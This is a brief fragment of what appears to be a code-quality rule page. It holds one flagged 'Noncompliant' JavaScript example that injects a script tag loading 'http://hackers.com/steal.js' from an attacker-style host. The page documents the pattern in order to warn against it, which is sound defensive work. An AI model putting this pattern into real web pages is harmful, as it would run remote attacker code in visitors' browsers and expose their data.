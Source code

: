 
== Noncompliant Code Example

----
function include(url) {
  var s = document.createElement("script");
  s.setAttribute("type", "text/javascript");
  s.setAttribute("src", url);
  document.body.appendChild(s);
}
include("http://hackers.com/steal.js")  // Noncompliant
----
